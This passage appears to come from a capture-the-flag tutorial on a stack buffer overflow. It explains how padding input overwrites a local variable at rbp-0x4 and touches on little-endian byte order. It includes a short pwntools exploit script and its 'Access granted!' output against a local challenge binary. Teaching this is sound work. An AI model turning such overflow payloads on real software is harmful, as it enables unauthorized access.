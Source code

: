 As we can see, the program stops at the break point at the compare statement. The value at variable `auth` or the value at location `rbp-0x4`, is equal to `0x62` instead of `0`. Why is this so? 
    If we see our payload, we are filling up the stack with 'a' s until rbp-0x4. rbp-0x4 contains 0x62 which is the hex for 'b'. Thus we have changed the value at memory `rbp-0x4`. 
    
As you might have noticed, the end of our string is "aaaab" but in memory, its represented as 0x6261616161 which would be "baaaa" if converted to ASCII characters. The data is stored in memory like this because of Endianness, specifically little-endian. On little-endian systems bytes are written from lower to higher addresses (in simple terms, left to right).

### Step 4:
Building exploit:
```python=
from pwn import *
p = process('./chall')
gdb.attach(p, gdbscript='''b*0x4011ab     # to check value at rbp-0x4, we can attach gdb to the process to debug.
c
''')
payload = 'a'*(0x20 - 0x4) + 'b'
p.sendline(payload)
p.interactive()
```
Upon running of the program we see,
```
Enter the passphrase: aaaaaaaaaaaaaaaaaaaaaaaaaaaab
Access granted!
```
